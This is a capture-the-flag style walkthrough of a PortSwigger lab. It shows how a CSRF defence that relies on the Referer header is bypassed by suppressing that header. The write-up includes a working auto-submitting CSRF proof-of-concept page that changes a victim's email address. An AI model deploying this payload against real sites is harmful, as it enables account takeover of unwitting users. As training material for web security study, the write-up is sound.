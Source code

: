 [Source](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)
## Task
The email address change function in this lab is vulnerable to CSRF. It attempts to block cross-domain requests, but has an insecure fallback.
To solve the task, we need to host an HTML page on our exploit server that uses a CSRF attack to change the browsing user's email address.
We can log in to our account using the following details: `wiener:peter`
## Solution
Go to the task page

![image](images/20241225224950.png)

Log in as `wiener`

![image](images/20241225225025.png)

Change the email and intercept the request via `Burp Suite`

![image](images/20241225225119.png)

Send this request to `Burp Repeater` and notice that if we change the domain in the `Referer` header, the request is rejected.

![image](images/20241225225209.png)

Remove the entire `Referer` header - now the request is accepted.

![image](images/20241225225239.png)

Create and place a `PoC` exploit on the exploit server, as described in the solution to the lab about [[CSRF vulnerability without protection]]. Don't forget to include the following HTML snippet to remove the `Referer` header:
```HTML
<meta name="referrer" content="no-referrer">
```

![image](images/20241225225430.png)


![image](images/20241225225533.png)

```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ab500d103cd8023b05aae15009a006c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
	  <meta name="referrer" content="no-referrer">
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](images/20241225225642.png)

Next, click `Store`, `Deliver exploit to victim` and the lab is solved

![image](images/20241225225717.png)

